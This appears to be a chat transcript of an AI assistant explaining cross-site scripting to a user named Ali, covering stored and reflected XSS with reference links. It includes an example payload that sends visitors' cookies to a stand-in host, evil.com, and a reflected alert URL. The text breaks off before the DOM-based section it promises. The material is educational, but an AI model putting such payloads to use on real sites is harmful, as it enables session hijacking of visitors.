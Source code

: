 
Ali — if you want, I can now walk you through  **building a secure input form** , or simulate an XSS attack in a safe lab like DVWA or PortSwigger Academy. Just say the word!

**Sources:**

[1] [MDN Web Docs – XSS Overview](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS)

[2] [PortSwigger – XSS Types &amp; Prevention](https://portswigger.net/web-security/cross-site-scripting)

[3] [Sucuri – XSS Guide](https://sucuri.net/guides/what-is-cross-site-scripting/)



Absolutely Ali — let’s break down **Normal XSS** and **DOM-Based XSS** completely, so you understand how each works, how they differ, and how attackers exploit them. These are two major categories of **Cross-Site Scripting (XSS)** vulnerabilities.

---

## 🧨 1️⃣ Normal XSS (also called Non-DOM XSS)

### 🔍 What It Is:

Normal XSS occurs when  **user input is sent to the server** , and the server **reflects it back into the HTML response** without proper sanitization or encoding.

The browser then **renders and executes** the malicious script.

### 🧪 Subtypes:

#### ✅ A. Stored XSS (Persistent)

* The malicious script is **saved** in the database or server.
* Every time a user loads the affected page, the script executes.

**Example:**

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

* Attacker posts this in a comment field.
* Every visitor to the page triggers the script.

#### ✅ B. Reflected XSS

* The script is injected via  **URL parameters or form inputs** .
* The server reflects it back in the response.

**Example:**

```html
https://site.com/search?q=<script>alert('XSS')</script>
```

* If the server echoes `q` directly into the page, the script runs.

---
